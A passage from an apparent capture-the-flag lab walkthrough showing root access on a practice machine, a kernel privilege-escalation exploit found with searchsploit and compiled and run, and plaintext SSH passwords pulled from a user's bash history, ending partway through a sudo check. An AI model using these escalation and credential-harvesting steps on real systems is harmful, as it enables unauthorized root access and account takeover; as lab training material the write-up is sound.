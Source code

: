 Boom! Shell!

```
root@red:/root# cat proof.txt
cat proof.txt
31d146670fcc40b79f6a9a2ded686f79
root@red:/root#
```

Boom! Flag! However, this is not the only way to root this box.

Going back to our `SHayslett` user which we pwned we can login to SSH.

After running linpeas we get a tooonnnnn of stuff to possibly use to get root. The first one that stands out is this one:

![image.png](image%204.png)

And after running searchsploit for `Ubuntu 16.04` we find  this exploit:

```
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation       | linux/local/39772.txt
```

We can compile and execute it like so

```
./compile.sh
./doubleput
```

There are also a bunch of other kernel exploits like `pwnkit`. I actually crashed the machine trying to run `Dirty Cow` lol. A lesson to learn from and to never do in a real pentesting environment. But hey, that’s what practice is all about!

Anyway, linpeas grabs us a bunch of other stuff too such as:

```
╔══════════╣ Searching passwords in history files                                                                       
/home/JKanode/.bash_history:sshpass -p thisimypassword ssh JKanode@localhost                                            
/home/JKanode/.bash_history:sshpass -p JZQuyIN5 ssh peter@localhost 
```

We can view `JKanode`’s history file! They passed some ssh passwords as a commandline argument. Another oopsie! We can pwn their accounts now too.

Once in peter’s account:

```
red% sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.                                                                                              #3) With great power comes great responsibility.

[sudo] password for peter:
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

```